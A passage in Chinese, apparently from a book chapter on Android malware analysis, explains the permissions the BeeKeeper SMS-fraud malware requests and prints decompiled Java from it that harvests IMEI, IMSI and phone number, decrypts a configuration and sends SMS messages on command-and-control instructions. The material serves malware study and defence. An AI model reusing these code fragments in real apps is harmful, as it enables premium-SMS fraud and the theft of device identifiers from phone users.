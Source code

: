 *列表 11-1：BeeKeeper SMS 欺诈恶意软件请求的所有权限*

你可以看到它请求了如 `SEND_SMS` 这样的权限，这是发送实施 SMS 欺诈的短信所必需的，还有 `RECEIVE_SMS` 权限，恶意软件利用该权限在无法连接到基于互联网的命令与控制服务器时，通过 SMS 接收指令和控制消息。`CALL_PHONE` 和 `PROCESS_OUTGOING_CALLS` 权限也值得注意。BeeKeeper 使用这些权限拨打从其命令与控制服务器接收到的号码，并将外拨电话重定向到其他号码。

列表 11-2 展示了涉及发送 SMS 欺诈信息的几个代码段之一。

```
public boolean load(Context context) {
  boolean result = false;
  log("Settings::load() start");
  try {
    Constants.imei = getImei(context);
    Constants.imsi = getImsi(context);
    Constants.phone = getPhone(context);
    Constants.country = getCountry(context);
    if (Constants.DEBUG) {
      Constants.imsi = "25001";
      Constants.data = decript("VY/atwQCBfBnL/CUcJj8Wf0+uk4xyqpeOhWE273WS5...")
    }
    log("json settings: " + new JSONObject(Constants.data).toString(4));
    SharedPreferences sharedPreferences = context.getSharedPreferences(
      SETTINGS, 1);
    if (sharedPreferences.contains("first")) {
      userAgree = sharedPreferences.getBoolean("userAgree", false);
      userCancel = sharedPreferences.getBoolean("userCancel", false);
      this.subscriptionTime = sharedPreferences.getLong("subscriptionTime", 0);
      this.repeatTime = sharedPreferences.getLong("repeatTime", 0);
      this.subscriptionPhone = sharedPreferences.getString(
        "subscriptionPhone", "");
      this.subscriptionMessage = sharedPreferences.getString(
        "subscriptionMessage", "");
      JSONArray jsonOperatorList = new JSONArray(
        sharedPreferences.getString("operators", ""));
      this.operators = new Vector<>();
      for (int i = 0; i < jsonOperatorList.length(); i++) {
        JSONObject jsonOperator = jsonOperatorList.getJSONObject(i);
        Operator operator = new Operator();
        operator.name = jsonOperator.getString("name");
        operator.time = jsonOperator.getLong("time");
        this.operators.add(operator);
      }
      result = true;
    }
  } catch (Exception ex2) {
    ex2.printStackTrace();
  }
  log("Settings::load() end");
  return result;
}

static void sendSms(JSONObject item) {
  try {
    Settings.sendSms(item.getString("phone"), item.getString
(Constants.JSON_TEXT));
  } catch (Exception ex) {
    Settings.log(ex);
  }
}
```
